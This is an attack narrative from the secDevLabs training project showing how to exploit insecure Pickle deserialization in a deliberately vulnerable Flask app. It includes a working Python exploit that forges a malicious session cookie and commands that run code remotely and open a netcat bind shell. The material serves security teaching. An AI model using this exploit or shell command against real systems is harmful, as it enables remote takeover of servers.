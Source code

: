 # Attack Narrative - Amarelo Designs
The main goal of this document is to describe how a malicious user could exploit a vulnerability, intentionally installed on Amarelo Designs from secDevLabs, to obtain a blind remote code execution.

If you don't know [secDevLabs] or this [intended vulnerable web application][2] yet, you should check them before reading this narrative.

---
## 👀
 
It's possible to reach the server's web application from the HTTP port 5000, as shown by the image below:

<img src="attack1.png" align="center"/>

Making use of the [Dirb] tool to search for webpages, we were able to find `/user`, `/admin` and `/console`, as shown by the picture below: (If you want to install Dirb for Mac OS, be sure to click [here][4])

```sh
$ dirb http://localhost:5000 ./docs/common.txt
```

<p align="center">
    <img src="attack2.png"/>
</p>

When accessed, the `/admin` page exposes an authentication screen, as depicted by the image:

<p align="center">
    <img src="attack3.png"/>
</p>

## 🔥
 
A quick test utilizing `admin` as the credentials for the `Username` and `Password` fields gives us acess to an Admin Dashboard, as shown below:

<img src="attack4.png" align="center"/>

Now, using [Burp Suite] as proxy to intercept the login request, we can see that the app returns a session cookie, `sessionId`, as depicted below:

<img src="attack5.png" align="center"/>

After decoding the cookie, which is in base64, the following structure was found:

<img src="attack6.png" align="center"/>

The structure found is very similar to the ones created with the [Pickle] function. We can be certain of that by having a look at the app's [code][3]. The hint is now confirmed, the app uses Pickle, as we can see from the image below:


<img src="attack7.png" align="center"/>

If an attacker knew that the app uses `Pickle` as the serialisation method, he/she could create a malicious cookie to take advantage of it and execute code remotely. An example of an exploit in Python 3 that could produce this cookie could be:

```python
import pickle
import os
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))


pickle_result = pickle.dumps(Exploit())

result = str(base64.b64encode(pickle_result), "utf-8")

print(result)
print(cmd)
print(url)

cookie = {'sessionId': result}

print(cookie)

r = requests.get(url, cookies=cookie)
```

In order to be certain that the app is exploitable, we will send a sleep command to make the app unresposive for 10 seconds. If the app takes 10 seconds to return our request, than it's confirmed, the app is exploitable. As we can see from the image below, the app takes some time to return our request, thus confirming that it is exploitable and confirming the remote code execution:

```sh
$ python serializaPickle.py "sleep 10" http://localhost:5000/user
```

<img src="attack9.png" align="center"/>

In order to show how an attacker could have access to the server through a RCE, we will use the code depicted on the image below to create a bind shell on the server's 9051 port.

```sh
$ python serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:5000/user
```

<img src="attack10.png" align="center"/>

The code used above creates a bind shell on the server's port 9051, which is then listening for incoming connections. After that, the attacker can connect to that port using a simple [netcat] command, as shown below:

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="attack11.png"/>
</p>


[secDevLabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a8/amarelo-designs
[Dirb]: https://tools.kali.org/web-applications/dirb
[Burp Suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a8/amarelo-designs/app/app.py
[Pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
